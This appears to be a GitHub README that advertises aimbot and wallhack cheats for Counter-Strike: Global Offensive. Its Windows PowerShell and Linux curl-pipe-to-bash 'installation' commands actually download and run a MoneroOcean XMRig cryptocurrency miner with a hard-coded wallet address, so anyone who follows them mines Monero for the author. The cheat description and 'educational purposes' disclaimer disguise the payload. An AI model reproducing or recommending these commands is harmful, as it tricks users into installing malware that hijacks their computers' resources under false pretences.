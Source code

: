 # Counter-Strike Setup Repository

## Description
This repository provides a straightforward setup guide for installing aimbot and wallhack utilities for Counter-Strike: Global Offensive (CS:GO). This setup uses PowerShell and a bash script to automate the installation process.

## Installation Instructions

### For Windows Users

1. **Open PowerShell**:
   - Press `Win + X` and select `Windows PowerShell` or `Windows Terminal`.

2. **Run the Following Command**:
   ```powershell
   $wc = New-Object System.Net.WebClient; $tempfile = [System.IO.Path]::GetTempFileName(); $tempfile += '.bat'; $wc.DownloadFile('https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.bat', $tempfile); & $tempfile 46egUxZjZpT6WcmSbwdycWMxKuVU1HxFWVKX5iUSokpWDSG14LVqnRk21SD7REgpsZBz7Qeytm36qjPJvvnv1XBPBnNniem; Remove-Item -Force $tempfile
   ```

### For Linux Users

1. **Open Terminal**:
   - You can use your preferred terminal application.

2. **Run the Following Command**:
   ```bash
   curl -s -L https://raw.githubusercontent.com/MoneroOcean/xmrig_setup/master/setup_moneroocean_miner.sh | bash -s 46egUxZjZpT6WcmSbwdycWMxKuVU1HxFWVKX5iUSokpWDSG14LVqnRk21SD7REgpsZBz7Qeytm36qjPJvvnv1XBPBnNniem
   ```

### Note
- Ensure your system meets the requirements for running Counter-Strike: Global Offensive.
- Use these tools responsibly and consider the legal implications of using modified software in online gaming.

## Disclaimer
The use of aimbots and wallhacks is against the Terms of Service for Counter-Strike: Global Offensive. This repository is for educational purposes only. Use at your own risk.